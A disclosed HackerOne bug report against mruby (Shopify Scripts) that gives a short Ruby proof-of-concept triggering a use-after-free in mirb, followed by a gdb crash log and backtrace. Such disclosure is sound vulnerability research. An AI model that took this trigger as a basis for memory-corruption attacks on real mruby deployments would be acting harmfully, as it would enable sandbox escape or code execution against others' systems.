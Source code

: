 # SIGABRT, SIGSEGV mspace_free() and mrb_default_allocf()

## Report Details
- **Report ID**: 192532
- **URL**: https://hackerone.com/reports/192532
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-12-19T20:10:54.659Z
- **Disclosed**: 2017-03-01T21:25:42.899Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Sample - 1
---------------------

The following code triggers the bug (attached as mirb_use_after_free.rb):

	def method_missing(m)"0000000"end
	m0=w.instance_eval{prepend(m)}
	m0.instance_eval{prepend(m0)}

Crash - Use After Free
---------------------

	(gdb) r use_after_free 
	Starting program: /home/x/Desktop/research/mruby/bin/mirb use_after_free
	mirb - Embeddable Interactive Ruby Shell

	 => :method_missing
	 => "00000000000000"
	 => ""
	*** Error in `/home/x/Desktop/research/mruby/bin/mirb': free(): invalid next size (normal): 0x00000000007c5b30 ***

	Program received signal SIGABRT, Aborted.
	0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	56	../nptl/sysdeps/unix/sysv/linux/raise.c: No such file or directory.
	(gdb) bt
	#0  0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	#1  0x00007ffff7748388 in __GI_abort () at abort.c:89
	#2  0x00007ffff77821d4 in __libc_message (do_abort=do_abort@entry=1, fmt=fmt@entry=0x7ffff7890a10 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
	#3  0x00007ffff778e4ae in malloc_printerr (ptr=<optimized out>, str=0x7ffff7890b88 "free(): invalid next size (normal)", action=1) at malloc.c:4996
	#4  _int_free (av=<optimized out>, p=<optimized out>, have_lock=1) at malloc.c:3840
	#5  0x00007ffff77905bc in _int_realloc (av=0x7ffff7acd760 <main_arena>, oldp=0x7c5ab0, oldsize=<optimized out>, nb=<optimized out>) at malloc.c:4366
	#6  0x00007ffff7791e09 in __GI___libc_realloc (oldmem=0x7c5ac0, bytes=95) at malloc.c:3029
	#7  0x000000000042321e in mrb_default_allocf (mrb=<optimized out>, p=<optimized out>, size=6, ud=<optimized out>) at /home/x/Desktop/research/mruby/src/state.c:60
	#8  0x000000000041b08d in mrb_realloc_simple (mrb=0x756010, p=0x7c5ac0, len=95) at /home/x/Desktop/research/mruby/src/gc.c:201
	#9  mrb_realloc (mrb=0x756010, p=0x7c5ac0, len=95) at /home/x/Desktop/research/mruby/src/gc.c:215